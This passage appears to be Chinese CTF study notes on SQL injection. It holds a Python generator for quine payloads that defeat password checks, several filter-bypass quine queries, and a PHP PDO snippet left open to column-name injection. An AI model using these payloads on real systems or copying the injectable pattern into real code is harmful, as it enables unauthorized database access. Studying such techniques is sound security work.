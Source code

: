 这样，sql 语句查询结果就会是输入的 password 本身。


一个生成quine表达式的程序：

```python
def quine(data, debug=False):
    if debug: print(data)
    data = data.replace('$$',"REPLACE(REPLACE($$,CHAR(34),CHAR(39)),CHAR(36),$$)")
    blob = data.replace('$$','"$"').replace("'",'"')
    data = data.replace('$$',"'"+blob+"'")
    if debug: print(data)
    return data

#把输入参数中需要回显的部分改成$$
data = quine("' union select 1,2,$$ -- ")

print(data)
```

#### 高级q

**如果 replace 被过滤了**，mysql 中可以用 regexp_replace 来代替。如果 regexp_replace 也被过滤了，可以使用子查询配合 concat 和 concat_ws 函数（mysql 与 sqlite 通用）。

```sql
select concat(a,char(34),a,char(34),'as a)as a#')from(select"select concat(a,char(34),a,char(34),'as a)as a#')from(select"as a)as a#
```

```sql
select concat_ws(char(34),a,a,'as a)as a#')from(select"select concat_ws(char(34),a,a,'as a)as a#')from(select"as a)as a#
```

最短形式：

```sql
select concat_ws(char(34),a,a,'a)a#')from(select"select concat_ws(char(34),a,a,'a)a#')from(select"a)a#
```

（注意注释形式，如果是 sqlite 推荐用`--`）

**如果replace和concat关键字都被过滤了**，还可以用insert函数（需要精确计算各个插入的位置）：

```sql
SELECT INSERT(p,231,0,0x5c)FROM(SELECT(SELECT INSERT(p,228,0,0x5c)FROM(SELECT(SELECT INSERT(p,115,1,p)FROM(SELECT'SELECT INSERT(p,231,0,0x5c)FROM(SELECT(SELECT INSERT(p,228,0,0x5c)FROM(SELECT(SELECT INSERT(p,115,1,p)FROM(SELECT\'.\'p)t)p)t)p)t'p)t)p)t)p)t
```

### NoSQL 注入


### PDO预处理语句也能注入？

```php
<?php
$dsn = "mysql:host=127.0.0.1;dbname=demo";
$pdo = new PDO($dsn, 'root', '');

$col = '`' . str_replace('`', '``', $_GET['col']) . '`';

$stmt = $pdo->prepare("SELECT $col FROM fruit WHERE name = ?");
$stmt->execute([$_GET['name']]);
$data = $stmt->fetchAll(PDO::FETCH_ASSOC);
foreach($data as $v) {
	echo join(' : ', $v) . PHP_EOL;
}
```
